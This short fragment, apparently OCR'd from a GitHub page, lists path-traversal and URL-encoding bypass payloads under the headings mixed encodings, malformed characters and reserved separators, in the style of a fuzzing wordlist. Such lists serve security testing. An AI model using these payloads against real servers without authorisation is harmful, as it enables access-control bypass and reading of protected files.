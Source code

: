 
### Mixed Encodings

```
%2e;%2f
%2e;%2f%2f
;%2f..//../
;%2f../%2f..%2f
;%2f../;//
;%2f../;/;/
;%2f..;//;/
;%2f..;/;//
/%2e//%2f
;%2f//../
;/../%2f/
/;%2f..%2f%2e%2e%2f
;%2f../%2f../
;%2f../;//
;%2f../;/;/
```

### Malformed Characters

```
..%00/
..%0d/
..%ff/
;%09
;%09..;
;%2F..
;%2f%2e%2e
;%2f..%2f/../
;%2f../%2f../
;%2f..//..%2f
;%2f..//../
;%2f..///;
;%2f../;/;/;
;%2f..;///
;%2f/%2f../
```

### Reserved Separators

```
/
/#
/%20
/%20#
/%20%23
/%23
/%3b/
/%u002e/%u002e
.%00/
/..%2f
;/
/?
?#
??;
;/../
;/../%2f/
/../..//
;/..//%2e%2e/
/../;/
/../;/../
///..
```